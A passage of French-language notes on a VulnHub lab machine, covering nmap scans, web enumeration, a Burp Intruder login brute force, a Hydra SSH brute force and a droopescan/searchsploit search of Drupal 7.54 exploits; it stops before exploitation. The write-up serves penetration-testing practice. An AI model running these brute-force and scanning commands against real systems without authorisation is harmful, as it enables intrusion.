



Mes notes prises au fil de l'eau.

Machine disponible ici : https://www.vulnhub.com/entry/lampiao-1,249/


# Identification de l'IP de la machine

```
➜  9:32 root@kali /root recon_netdiscover 192.168.112.0/24 

Running 
nmap -sn -PE -sP -PA80,22 192.168.112.0/24

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-17 09:33 CET
Nmap scan report for 192.168.112.1
Host is up (0.00020s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.112.2
Host is up (0.00015s latency).
MAC Address: 00:50:56:F2:BC:D9 (VMware)
Nmap scan report for 192.168.112.210
Host is up (0.00037s latency).
MAC Address: 00:0C:29:FD:25:46 (VMware)
Nmap scan report for 192.168.112.254
Host is up (0.00036s latency).
MAC Address: 00:50:56:FB:F3:B3 (VMware)
Nmap scan report for 192.168.112.134
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.15 seconds
```

# Scan nmap rapide

```
➜  9:33 root@kali /root recon_nmapQuickPortScan 192.168.112.210 
Running 
nmap -sC -sV 192.168.112.210

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-17 09:35 CET
Nmap scan report for 192.168.112.210
Host is up (0.0023s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.80%I=7%D=1/17%Time=5E2171C9%P=x86_64-pc-linux-gnu%r(NULL
SF:,1179,"\x20_____\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\|_\x20\x20\x20_\|\x20\|\x20\(\x
SF:20\)\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\n\x20\x20\|\x20\|\x20\|\x20\|_\|/\x20___\x20\x20\x20\x20___\x20\x20
SF:__\x20_\x20___\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n
SF:\x20\x20\|\x20\|\x20\|\x20__\|\x20/\x20__\|\x20\x20/\x20_\x20\\/\x20_`\
SF:x20/\x20__\|\x20\|\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20_\
SF:|\x20\|_\|\x20\|_\x20\x20\\__\x20\\\x20\|\x20\x20__/\x20\(_\|\x20\\__\x
SF:20\\\x20\|_\|\x20\|_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\\___/\x20\\__\|
SF:\x20\|___/\x20\x20\\___\|\\__,_\|___/\\__,\x20\(\x20\)\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20__/\x20\|/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|___/\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\n______\x20_\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\n\|\x20\x20___\(_\)\x20\x20\x
SF:20\x20\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\|\n\
SF:|\x20\|_\x20\x20\x20_\x20\x20\x20\x20__\|\x20\|_\x20\x20\x20_\x20_\x20_
SF:_\x20___\x20\x20\x20__\x20_\x20\x20\x20\x20___\x20\x20__\x20_\x20_\x20\
SF:x20\x20_\x20\x20__\x20_\|\x20\|\n\|\x20\x20_\|\x20\|\x20\|\x20\x20/\x20
SF:_`\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x20\\\x20/\x20_`\x20\|\x20\x
SF:20/\x20_\x20\\/\x20_`\x20\|\x20\|\x20\|\x20\|/\x20_`\x20\|\x20\|\n\|\x2
SF:0\|\x20\x20\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|_\|\x20\|\x20\|\x20\|
SF:\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|\x20\x20__/\x20\(_\|\x20\|\x20\|
SF:_\|\x20\|\x20\(_\|\x20\|_\|\n\\_\|\x20\x20\x20\|_\|\x20\x20\\__,_\|\\__
SF:,_\|_\|\x20\|_\|");
MAC Address: 00:0C:29:FD:25:46 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.21 seconds
```

# Scan du serveur web 

=> Echec en raison d'une réponse malformée

```
➜  9:42 root@kali /root recon_http 192.168.112.210
Running 
gobuster dir -u http://192.168.112.210 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o /tmp/result.txt -t 50

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.112.210
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/17 09:42:55 Starting gobuster
===============================================================
Error: error on running goubster: unable to connect to http://192.168.112.210/: Get http://192.168.112.210/: net/http: HTTP/1.x transport connection broken: malformed HTTP status code "_____"
```


# Scan de port TCP exhaustif

Mise en évidence d'un nouveau port :

**1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))**

```
➜ 10:03 root@kali /root/boxes (master) ✗ recon_nmapFullPortScan 192.168.112.210
Running 
nmap -sV -p- 192.168.112.210

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-17 10:04 CET
Nmap scan report for 192.168.112.210
Host is up (0.0031s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.80%I=7%D=1/17%Time=5E21788E%P=x86_64-pc-linux-gnu%r(NULL
SF:,1179,"\x20_____\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\|_\x20\x20\x20_\|\x20\|\x20\(\x
SF:20\)\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\n\x20\x20\|\x20\|\x20\|\x20\|_\|/\x20___\x20\x20\x20\x20___\x20\x20
SF:__\x20_\x20___\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n
SF:\x20\x20\|\x20\|\x20\|\x20__\|\x20/\x20__\|\x20\x20/\x20_\x20\\/\x20_`\
SF:x20/\x20__\|\x20\|\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20_\
SF:|\x20\|_\|\x20\|_\x20\x20\\__\x20\\\x20\|\x20\x20__/\x20\(_\|\x20\\__\x
SF:20\\\x20\|_\|\x20\|_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\\___/\x20\\__\|
SF:\x20\|___/\x20\x20\\___\|\\__,_\|___/\\__,\x20\(\x20\)\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20__/\x20\|/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|___/\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\n______\x20_\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\n\|\x20\x20___\(_\)\x20\x20\x
SF:20\x20\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\|\n\
SF:|\x20\|_\x20\x20\x20_\x20\x20\x20\x20__\|\x20\|_\x20\x20\x20_\x20_\x20_
SF:_\x20___\x20\x20\x20__\x20_\x20\x20\x20\x20___\x20\x20__\x20_\x20_\x20\
SF:x20\x20_\x20\x20__\x20_\|\x20\|\n\|\x20\x20_\|\x20\|\x20\|\x20\x20/\x20
SF:_`\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x20\\\x20/\x20_`\x20\|\x20\x
SF:20/\x20_\x20\\/\x20_`\x20\|\x20\|\x20\|\x20\|/\x20_`\x20\|\x20\|\n\|\x2
SF:0\|\x20\x20\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|_\|\x20\|\x20\|\x20\|
SF:\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|\x20\x20__/\x20\(_\|\x20\|\x20\|
SF:_\|\x20\|\x20\(_\|\x20\|_\|\n\\_\|\x20\x20\x20\|_\|\x20\x20\\__,_\|\\__
SF:,_\|_\|\x20\|_\|");
MAC Address: 00:0C:29:FD:25:46 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.07 seconds
```

# Recheche d'information sur l'applicatif

```
➜ 10:15 root@kali /root/boxes (master) ✗ whatweb http://192.168.112.210:1898               
http://192.168.112.210:1898 [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[192.168.112.210], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.24], PasswordField[pass], Script[text/javascript], Title[Lampião], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24] 
```

# Test avec le switch agressif, pas de différence :

```
➜ 10:16 root@kali /root/boxes (master) ✗ whatweb http://192.168.112.210:1898 -a 3
http://192.168.112.210:1898 [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[192.168.112.210], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.24], PasswordField[pass], Script[text/javascript], Title[Lampião], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24]     
```

# Connexion au site web 


# Création d'un dictionnaire sur base du contenu web

Seulement 74 entrées 

```
➜ 10:28 root@kali /root/boxes/lampiao (master) ✗ collectWordlist http://192.168.112.210:1898 >dict.txt
➜ 10:29 root@kali /root/boxes/lampiao (master) ✗ wc -L dict.txt                                       
74 dict.txt
```

# Lancement de burp

Préalable activation du proxy sous firefox


Envoi d'une identification et consultation sous burp


**TODO : trouver comment exclure nativement le detectportal**

On envoi dans le module intruder


Selection du mode "cluster bomb"


Désactivation de la reconnaissance automatique et selection des champs d'interêts




## Ajout des entrées pour les payloads

Identifiants classique pour le login



Importation du dictionnaire pour le mot de passe


## Execution de l'attaque


Comment identifier une réussite ? 


Un échec contient la chaine sorry, on flag les réponses avec cette chaine :


Pas de résultat :


Je me suis rendu compte après que je m'étais fait bannir 





# Lancement d'une attaque par brute force ssh


Création d'une liste d'utilisateurs 

``` 
(venv) ➜ 14:42 root@kali /root/boxes/lampiao (master) ✗ cat users.txt 
tiago
Eder
eder
root
``` 

Lanceement de l'attaque via hydra

``` 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-01-17 14:42:41
[ERROR] File for logins not found: user.txt
(venv) ➜ 14:42 root@kali /root/boxes/lampiao (master) ✗ hydra -L users.txt -P dict.txt -t 4 192.168.112.210 ssh

[DATA] max 4 tasks per 1 server, overall 4 tasks, 3052 login tries (l:4/p:763), ~763 tries per task
[DATA] attacking ssh://192.168.112.210:22/
``` 


# Recherche de vulnérabilités

- Apache[2.4.7]
- Drupal 7 
- PHP[5.5.9-1ubuntu4.24]
- OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7

## Installation de droopecan

```
➜ 11:14 root@kali /opt git clone https://github.com/droope/droopescan.git --depth=1
Cloning into 'droopescan'...
remote: Enumerating objects: 132, done.
remote: Counting objects: 100% (132/132), done.
remote: Compressing objects: 100% (110/110), done.
remote: Total 132 (delta 7), reused 69 (delta 4), pack-reused 0
Receiving objects: 100% (132/132), 371.02 KiB | 233.00 KiB/s, done.
Resolving deltas: 100% (7/7), done.

➜ 11:14 root@kali /opt/droopescan (master) ✔  pip3 install virtualenv 
Collecting virtualenv
  Downloading https://files.pythonhosted.org/packages/05/f1/2e07e8ca50e047b9cc9ad56cf4291f4e041fa73207d000a095fe478abf84/virtualenv-16.7.9-py2.py3-none-any.whl (3.4MB)
    100% |████████████████████████████████| 3.4MB 193kB/s 
Installing collected packages: virtualenv
Successfully installed virtualenv-16.7.9


➜ 11:14 root@kali /opt/droopescan (master) ✗ virtualenv -p /usr/bin/python2.7 venv
Running virtualenv with interpreter /usr/bin/python2.7
Already using interpreter /usr/bin/python2.7
New python executable in /opt/droopescan/venv/bin/python2.7
Also creating executable in /opt/droopescan/venv/bin/python
Installing setuptools, pip, wheel...
done.

```

## Installation des pré-requis

```
➜ 11:19 root@kali /opt/droopescan (master) ✗ source venv/bin/activate
(venv) ➜ 11:20 root@kali /opt/droopescan (master) ✗ pip install -r requirements.txt 
DEPRECATION: Python 2.7 will reach the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 won't be maintained after that date. A future version of pip will drop support for Python 2.7. More details about Python 2 support in pip, can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support                            
Looking in indexes: https://pypi.python.org/simple/
Obtaining file:///opt/droopescan (from -r requirements.txt (line 3))
Collecting cement<2.6.99,>=2.6
  Downloading https://files.pythonhosted.org/packages/d9/a6/eb2ea42c960400f3eb71d2e3e2f0b478d83ad8ad2218794e0037e098fedd/cement-2.6.2.tar.gz (140kB)
     |████████████████████████████████| 143kB 218kB/s 
Collecting requests
  Using cached https://files.pythonhosted.org/packages/51/bd/23c926cd341ea6b7dd0b2a00aba99ae0f828be89d72b2190f27c11d4b7fb/requests-2.22.0-py2.py3-none-any.whl
Collecting pystache
  Downloading https://files.pythonhosted.org/packages/d6/fd/eb8c212053addd941cc90baac307c00ac246ac3fce7166b86434c6eae963/pystache-0.5.4.tar.gz (75kB)
     |████████████████████████████████| 81kB 277kB/s 
Collecting futures
  Downloading https://files.pythonhosted.org/packages/d8/a6/f46ae3f1da0cd4361c344888f59ec2f5785e69c872e175a748ef6071cdb5/futures-3.3.0-py2-none-any.whl
Collecting idna<2.9,>=2.5
  Downloading https://files.pythonhosted.org/packages/14/2c/cd551d81dbe15200be1cf41cd03869a46fe7226e7450af7a6545bfc474c9/idna-2.8-py2.py3-none-any.whl (58kB)
     |████████████████████████████████| 61kB 273kB/s 
Collecting chardet<3.1.0,>=3.0.2
  Downloading https://files.pythonhosted.org/packages/bc/a9/01ffebfb562e4274b6487b4bb1ddec7ca55ec7510b22e4c51f14098443b8/chardet-3.0.4-py2.py3-none-any.whl (133kB)
     |████████████████████████████████| 143kB 231kB/s 
Collecting certifi>=2017.4.17
  Downloading https://files.pythonhosted.org/packages/b9/63/df50cac98ea0d5b006c55a399c3bf1db9da7b5a24de7890bc9cfd5dd9e99/certifi-2019.11.28-py2.py3-none-any.whl (156kB)
     |████████████████████████████████| 163kB 231kB/s 
Collecting urllib3!=1.25.0,!=1.25.1,<1.26,>=1.21.1
  Downloading https://files.pythonhosted.org/packages/b4/40/a9837291310ee1ccc242ceb6ebfd9eb21539649f193a7c8c86ba15b98539/urllib3-1.25.7-py2.py3-none-any.whl (125kB)
     |████████████████████████████████| 133kB 197kB/s 
Building wheels for collected packages: cement, pystache
  Building wheel for cement (setup.py) ... done
  Created wheel for cement: filename=cement-2.6.2-cp27-none-any.whl size=81073 sha256=0cedcae1a7044d5208cf701302b872e945643a976fac94916e3c5b2c05624259
  Stored in directory: /root/.cache/pip/wheels/53/74/c7/8a99e0235db8e608f2bbe3388b4fd291d6e13586131d2c4a4a
  Building wheel for pystache (setup.py) ... done
  Created wheel for pystache: filename=pystache-0.5.4-cp27-none-any.whl size=82950 sha256=51f84507cffad3056b17e1aa67fce0cac91186b350fd735febbb540f2e971e9c
  Stored in directory: /root/.cache/pip/wheels/a6/e9/b0/a29a4f37e8f5a765473dd7936ef025d9d2543e07b55d88697c
Successfully built cement pystache
Installing collected packages: cement, idna, chardet, certifi, urllib3, requests, pystache, futures, droopescan
  Running setup.py develop for droopescan
Successfully installed cement-2.6.2 certifi-2019.11.28 chardet-3.0.4 droopescan futures-3.3.0 idna-2.8 pystache-0.5.4 requests-2.22.0 urllib3-1.25.7
```

## Scan à l'aide de l'outil droopscan

```
(venv) ➜ 11:22 root@kali /opt/droopescan (master) ✗ ./droopescan

    |                                                                                                                                                                                       
 ___| ___  ___  ___  ___  ___  ___  ___  ___  ___                                                                                                                                           
|   )|   )|   )|   )|   )|___)|___ |    |   )|   )                                                                                                                                          
|__/ |    |__/ |__/ |__/ |__   __/ |__  |__/||  /                                                                                                                                           
                    |                                                                                                                                                                       
                                         v1.33.7                                                                                       
Example invocations: 
  droopescan scan drupal -u URL_HERE                                                                                                                                                        
  droopescan scan silverstripe -u URL_HERE                                                                                                                                                
More info: 
  droopescan scan --help                                                                            
Please see the README file for information regarding proxies.

(venv) ➜ 11:22 root@kali /opt/droopescan (master) ✗ ./droopescan scan drupal -u http://192.168.112.210:1898
[+] Themes found:                                                               
    seven http://192.168.112.210:1898/themes/seven/
    garland http://192.168.112.210:1898/themes/garland/

[+] Possible interesting urls found:
    Default changelog file - http://192.168.112.210:1898/CHANGELOG.txt

[+] Possible version(s):
    7.54

[+] Plugins found:
    image http://192.168.112.210:1898/modules/image/
    profile http://192.168.112.210:1898/modules/profile/
    php http://192.168.112.210:1898/modules/php/

[+] Scan finished (0:00:10.335109 elapsed)
```

==> version de drupal : 7.54

```
(venv) ➜ 11:23 root@kali /opt/droopescan (master) ✗ searchsploit drupal
--------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                     |  Path
                                                                                                                                                   | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Drupal 4.0 - News Message HTML Injection                                                                                                           | exploits/php/webapps/21863.txt
Drupal 4.1/4.2 - Cross-Site Scripting                                                                                                              | exploits/php/webapps/22940.txt
Drupal 4.5.3 < 4.6.1 - Comments PHP Injection                                                                                                      | exploits/php/webapps/1088.pl
Drupal 4.7 - 'Attachment mod_mime' Remote Command Execution                                                                                        | exploits/php/webapps/1821.php
Drupal 4.x - URL-Encoded Input HTML Injection                                                                                                      | exploits/php/webapps/27020.txt
Drupal 5.2 - PHP Zend Hash ation Vector                                                                                                            | exploits/php/webapps/4510.txt
Drupal 5.21/6.16 - Denial of Service                                                                                                               | exploits/php/dos/10826.sh
Drupal 6.15 - Multiple Persistent Cross-Site Scripting Vulnerabilities                                                                             | exploits/php/webapps/11060.txt
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                                                                                  | exploits/php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                                                                                   | exploits/php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)                                                                        | exploits/php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)                                                                        | exploits/php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)                                                                           | exploits/php/webapps/35150.php
Drupal 7.12 - Multiple Vulnerabilities                                                                                                             | exploits/php/webapps/18564.txt
Drupal 7.x Module Services - Remote Code Execution                                                                                                 | exploits/php/webapps/41564.php
Drupal < 4.7.6 - Post Comments Remote Command Execution                                                                                            | exploits/php/webapps/3313.pl
Drupal < 5.1 - Post Comments Remote Command Execution                                                                                              | exploits/php/webapps/3312.pl
Drupal < 5.22/6.16 - Multiple Vulnerabilities                                                                                                      | exploits/php/webapps/33706.txt
Drupal < 7.34 - Denial of Service                                                                                                                  | exploits/php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                                           | exploits/php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                                                                        | exploits/php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                                                | exploits/php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                                            | exploits/php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                                                   | exploits/php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                              | exploits/php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                                                     | exploits/php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                                                 | exploits/php/webapps/46459.py
Drupal Module Ajax Checklist 5.x-1.0 - Multiple SQL Injections                                                                                     | exploits/php/webapps/32415.txt
Drupal Module CAPTCHA - Security Bypass                                                                                                            | exploits/php/webapps/35335.html
Drupal Module CKEditor 3.0 < 3.6.2 - Persistent EventHandler Cross-Site Scripting                                                                  | exploits/php/webapps/18389.txt
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting                                                             | exploits/php/webapps/25493.txt
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                                                                                    | exploits/php/webapps/40149.rb
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                                                                      | exploits/php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                                                                            | exploits/php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload                                                                     | exploits/php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam - Multiple Vulnerabilities                                       | exploits/php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                                                                  | exploits/php/remote/40130.rb
Drupal Module Sections - Cross-Site Scripting                                                                                                      | exploits/php/webapps/10485.txt
